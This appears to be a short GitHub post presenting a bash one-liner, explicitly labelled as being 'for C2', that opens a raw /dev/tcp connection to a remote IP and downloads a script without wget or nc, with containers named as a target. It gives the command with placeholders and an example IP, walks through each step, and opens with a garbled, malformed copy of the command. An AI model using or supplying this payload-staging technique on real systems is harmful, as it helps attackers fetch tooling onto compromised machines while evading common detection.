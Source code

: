 One liner bash for C2 without using any native program like wget, nc etc, esp containers. 

#bash-c "exec 3<>/dev/tcp/IP/80; echo -e GET/ youfile.sh HTTP/1.1\r\nHost; ip\r\nConnection: close\r\n\r\n' >&3; cat <&3-> yourfile.sh'
```bash
bash -c "exec 3<>/dev/tcp/IP/80; echo -e 'GET /yourfile.sh HTTP/1.1\r\nHost: IP\r\nConnection: close\r\n\r\n' >&3; cat <&3 > yourfile.sh"
```

## Explanation How it Work

1. **`exec 3<>/dev/tcp/IP/80`**  
   Opens a TCP connection to the specified `IP` on port `80` and assigns it to file descriptor `3`.

2. **`echo -e 'GET /yourfile.sh HTTP/1.1\r\nHost: IP\r\nConnection: close\r\n\r\n' >&3`**  
   Sends an HTTP GET request to the server.  
   - `GET /yourfile.sh HTTP/1.1`: Requests the file `yourfile.sh` using HTTP/1.1.  
   - `Host: IP`: Specifies the host (replace `IP` with the server's IP or hostname).  
   - `Connection: close`: Ensures the connection is closed after the request.  
   - `\r\n`: Represents a carriage return and newline for proper HTTP formatting.

3. **`cat <&3 > yourfile.sh`**  
   Reads the server's response from file descriptor `3` and saves it to `yourfile.sh`.


## Example

If the server IP is `192.168.1.100` and the file is `script.sh`, the command would look like this:

```bash
bash -c "exec 3<>/dev/tcp/192.168.1.100/80; echo -e 'GET /script.sh HTTP/1.1\r\nHost: 192.168.1.100\r\nConnection: close\r\n\r\n' >&3; cat <&3 > script.sh"
```



## Notes

- Replace `IP` with the actual IP address or hostname of the server.
- Replace `/yourfile.sh` with the path to the file you want to download.
- Ensure the server is running on port `80` and allows HTTP requests.
- This method only works for plain HTTP. For HTTPS, use tools like `curl` or `wget`.
Don’t forget the reactions and stars⭐️! 
They fuel my energy to post such contents🔋✨.
